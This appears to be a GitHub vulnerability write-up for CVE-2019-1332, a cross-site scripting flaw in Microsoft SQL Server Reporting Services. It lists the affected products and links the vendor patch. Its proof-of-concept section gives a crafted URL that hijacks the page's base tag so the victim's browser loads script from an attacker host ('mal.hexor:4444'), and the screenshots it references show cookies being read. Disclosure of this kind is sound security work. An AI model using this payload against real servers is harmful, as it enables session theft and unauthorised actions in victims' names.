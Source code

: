 # CVE-2019-1332: Microsoft SQL Server Reporting Services XSS Vulnerability

A cross-site scripting (XSS) vulnerability exists when Microsoft SQL Server Reporting Services (SSRS) does not properly sanitize a specially-crafted web request to an affected SSRS server. An attacker who successfully exploited the vulnerability could run scripts in the context of the targeted user. The attacks could allow the attacker to read content that the attacker is not authorized to read, execute malicious code, and use the victim's identity to take actions on the site on behalf of the user, such as change permissions and delete content.
<br/>
To exploit the vulnerability, an attacker would need to convince an authenticated user to click a specially-crafted link to an affected SSRS server.

<table>
	<tr>
		<th>Affected Products</th>
	</tr>
	<tr>
		<td>Power BI Report Server</td>
	</tr>
	<tr>
		<td>SQL Server 2017 Reporting Services</td>
	</tr>
	<tr>
		<td>SQL Server 2019 Reporting Services</td>
	</tr>
</table>

### Vendor Disclosure:

The vendor's disclosure and patch of this vulnerability can be found [here](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-1332).

### Proof Of Concept:

The vulnerability leverages insufficent URL sanitization in order to trigger a [Base Tag Hijacking attack](https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/base-tag-hijacking/), that potentialy results in arbitrary JavaScript code execution on the victim's browser via Cross-Site Scripting (XSS).

#### Step 1 - Identify Valid SSRS Page containing vulnerable JS Code 

In this case, the page of interest can be found at "http://\<IP\>/rapoarte/browse":
<img src="Browse_Page.png"/>
<br/>

Vulnerable JS code:
<img src="Vulnerable_JS.png"/>

#### Step 2 - Crafting the Malicious URL

Example of malicious URL:
```
http://<IP>/&sol;mal.hexor:4444&sol;%2f..%2frapoarte%2fbrowse%2f''
```

- \&sol; == [HTML character entity reference](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references) of "/"
- mal.hexor:4444 == attacker's domain (mal.hexor) and port (4444)
- %2f..%2f == path traversal used bypass 404 response by "pointing" to a valid page
- rapoarte%2fbrowse%2f == valid page containing vulnerable JS

<strong>Note:</strong> %2f (URL encoding of "/") is used in order to not trigger browser processing of the URL as well as the JavaScript "split('/')" which would end the payload prematurely

#### Result

Resulting HTML:
```
...
<base href="//mal.hexor:4444/ " '="">
...
<script src="assets/js/oauth.js"></script>
...
```

This HTML forces the victim's browser to lookup the "oauth.js" resource on an attacker controlled server, in this case "http://mal.hexor:4444/assets/js/oauth.js".
<br/>
<strong>Note:</strong> In this example "mal.hexor" points to localhost (127.0.0.1).
<br/>

Resulting XSS:
<img src="Alert_Hexor.png"/>
<br/>
<img src="Alert_Cookies.png"/>

